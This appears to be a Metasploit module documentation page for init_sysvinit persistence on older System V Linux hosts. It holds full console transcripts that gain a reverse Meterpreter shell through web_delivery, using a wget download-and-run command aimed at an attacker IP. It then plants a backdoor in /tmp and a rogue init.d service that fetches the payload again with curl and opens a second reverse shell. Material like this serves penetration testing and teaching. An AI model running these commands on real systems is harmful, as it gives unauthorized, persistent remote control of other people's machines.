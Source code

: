 ## Vulnerable Application

This module will create a service via System V on the box, and mark it for auto-restart.
We need enough access to write service files and potentially restart services
Targets:

* CentOS <= 5
* Debian <= 6
* Kali 2.0
* Ubuntu <= 9.04

Note: System V won't restart the service if it dies, only an init change (reboot etc) will restart it.

Verified on [Kali 2.0](https://old.kali.org/kali-images/kali-2.0/kali-linux-2.0-amd64.iso)

## Verification Steps

1. Exploit a box
2. `use exploit/linux/persistence/init_sysvinit`
3. `set SESSION <session>`
4. `set PAYLOAD <payload>`
5. `set LHOST <lhost>`
6. `exploit`

## Options

**SERVICE**

The name of the service to create.  If not chosen, a random one is created.

**PAYLOAD_NAME**

The name of the file to write with our shell if a non-cmd payload is used.  If not chosen, a random one is created.

**EnableService**

If the service should be enabled. Defaults to `true`

## Scenarios

### Kali 2.0

Initial access vector via web delivery

```
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l

[*] Server started.
[*] Run the following command on the target machine:
wget -qO 1KkF4s8n --no-check-certificate http://111.111.1.111:8181/l; chmod +x 1KkF4s8n; ./1KkF4s8n& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > [*] 222.222.2.22     web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.22
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.22:56459) at 2025-02-16 07:51:56 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/root) > getuid
Server username: root
(Meterpreter 1)(/root) > sysinfo
Computer     : kali2.0
OS           : Kali 2.0 (Linux 4.0.0-kali1-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/root) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/init_sysvinit 
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_sysvinit) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_sysvinit) > exploit
[*] Command to run on remote host: curl -so ./BQVXqXpLiG http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./BQVXqXpLiG;./BQVXqXpLiG&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/init_sysvinit) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Payloads in /tmp will only last until reboot, you want to choose elsewhere.
[+] The target appears to be vulnerable. /tmp/ is writable and system is System V based
[*] Writing backdoor to /tmp//MarxU
[*] Utilizing update-rc.d
[*] Writing service: /etc/init.d/JIxbnwyUcQ
[+] Enabling & starting our service
[*] Client 222.222.2.22 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 222.222.2.22 (curl/7.38.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.22
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.22:55807) at 2025-02-16 07:56:21 -0500
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/kali2.0_20250216.5622/kali2.0_20250216.5622.rc
```
